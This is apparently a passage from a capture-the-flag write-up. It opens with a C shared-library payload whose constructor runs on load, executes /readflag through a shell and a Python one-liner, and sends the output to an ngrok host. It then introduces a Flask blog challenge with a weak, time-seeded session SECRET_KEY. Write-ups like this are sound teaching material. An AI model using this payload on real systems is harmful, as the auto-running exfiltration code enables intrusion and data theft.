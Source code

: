 ```c:lib.c
static const char* argv[] = {"/bin/sh", "-c", "python -c \"__import__('urllib.request',None,None,['urllib','request']).urlopen('https://xxx.ngrok.app/?'+__import__('subprocess').check_output(['/readflag']).decode())\"", 0};
static const char* filename = "/bin/sh";

__attribute__((constructor))
void f() {
    const char** local_argv = argv;
    
    __asm__ volatile (
        ".intel_syntax noprefix\n\t"
        "mov rax, 59\n\t"       // 59 is the syscall number for execve
        "mov rdi, %0\n\t"       // filename
        "mov rsi, %1\n\t"       // argv
        "xor rdx, rdx\n\t"      // NULL for envp
        "syscall\n\t"
        ".att_syntax prefix"    // Switch back to AT&T syntax for compatibility
        :
        : "r" (filename), "r" (local_argv)
        : "rax", "rdi", "rsi", "rdx"
    );
}
```

## ✅ Timeless

### Overview

You are presented with a blog service where you can sign up and create posts.

![](/assets/blog/UotT/image-1.png)

On your profile page, you can upload images for your icon. 

![](/assets/blog/UotT/image-2.png)

Files are uploaded to `/app/uploads/<username>/<hash>`. The server blocks usernames that contain `..` to prevent unintended upload and Local File Inclusion (LFI).

The server handles the user session with [`flask-session`](https://github.com/pallets-eco/flask-session) in [`FileSystem`](https://flask-session.readthedocs.io/en/latest/api.html#flask_session.filesystem.FileSystemSessionInterface) mode. The `SECRET_KEY` for the session is created using `datetime.now()` and `uuid.uuid1`.

The goal of this challenge is to run `/readflag` in the shell.

```python
START_TIME = datetime.now()
random.seed(int(START_TIME.timestamp()))
SECRET_KEY = str(uuid.uuid1(clock_seq=random.getrandbits(14)))
```
::: details Read the relevant scripts
